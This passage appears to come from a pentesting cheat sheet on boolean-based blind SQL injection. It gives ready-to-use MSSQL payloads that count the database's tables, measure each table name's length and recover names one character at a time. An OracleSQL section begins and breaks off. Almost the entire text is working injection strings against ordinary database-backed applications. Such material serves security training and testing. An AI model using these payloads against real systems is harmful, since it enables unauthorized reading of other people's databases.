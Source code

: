 {% tab title="MSSQL" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT count(*) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME())=2--  #True -> 2 tables
1' AND (SELECT count(*) FROM information_schema.tables)=2-- #Run in actual context/DB
```

Second, retrieve length of each table

```sql
-- If True, the first table lenght is 5
1' AND (SELECT TOP 1 LEN(table_name) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME())=5-- 

-- If True, the second table lenght is 5
1' AND (SELECT TOP 1 LEN(table_name) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME() AND table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))=5--

-- If True, the third table lenght is 5
1' AND (SELECT TOP 1 LEN(table_name) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME() AND table_name NOT IN(SELECT TOP 2 table_name FROM information_schema.tables))=5-- 
```

Third, retrieve name of each table

```sql
-- If True, the first char of the first table is u
1'AND (SELECT TOP 1 ASCII(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME())=117--

-- If True, the second char of the first table is s
1'AND (SELECT TOP 1 ASCII(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME())=115--

-- If True, the first char of the second table is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME() AND table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))=112--

-- If True, the first char of the third table is p
1'AND (SELECT TOP 1 ASCII(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE TABLE_CATALOG=DB_NAME() AND table_name NOT IN(SELECT TOP 2 table_name FROM information_schema.tables))=112--
```
{% endtab %}

{% tab title="OracleSQL" %}
First, retrieve the number of tables:

```sql
1' AND (SELECT COUNT(*) FROM all_tables WHERE owner = USER)=2-- #True -> 2 tables
```

Second, retrieve length of each table
